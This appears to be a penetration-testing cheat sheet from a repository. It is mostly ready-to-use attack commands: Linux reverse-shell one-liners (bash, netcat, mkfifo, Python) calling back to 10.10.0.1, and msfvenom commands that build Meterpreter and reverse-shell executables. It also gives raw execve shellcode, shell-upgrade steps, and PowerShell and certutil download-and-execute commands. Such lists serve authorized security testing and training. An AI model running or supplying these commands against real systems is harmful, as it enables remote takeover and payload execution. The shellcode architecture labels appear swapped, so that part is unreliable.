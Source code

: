 sudo python3 -m http.server 80
## Linux reverse shell

<a href="https://weibell.github.io/reverse-shell-generator/">Reverse Shell Generator</a><br>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">PayloadsAllTheThings Cheatsheet <3</a>
```bash
bash -i >& /dev/tcp/10.10.0.1/777 0>&1
nc -e /bin/bash 10.10.0.1 777
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.1 777 >/tmp/f
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.1",777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=777 -f exe > reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.1 LPORT=777 -f exe > reverse.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=777 -f elf >reverse.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.0.1 LPORT=777 -f elf >reverse.elf

Linux x86 /bin/sh execve
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
Linux x64 /bin/sh execve
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80


```
## Interactive shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
perl -e 'exec "/bin/bash";'
/bin/sh -i

perl: exec "/bin/bash";
ruby: exec "/bin/bash"
lua: os.execute('/bin/bash')

CTRL-Z
stty raw -echo
fg

export TERM=xterm

rlwrap nc -vlnp 1234
```
## Download files
```powershell
certutil.exe -urlcache -split -f http:// .exe
iwr http:// -outfile .exe
powershell.exe IEX (New-Object Net.WebClient).DownloadFile("")
```
## Download and run powershell script
```powershell
powershell.exe IEX (New-Object Net.WebClient).DownloadString("")
powershell.exe -e 
```
<a href="https://raikia.com/tool-powershell-encoder">Powershell Encoder</a>
  
## Powershell.exe Bit
```powershell
[Environment]::Is64BitProcess

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe (32bit)
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe (32bit -> 64bit)
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe (64bit)
```
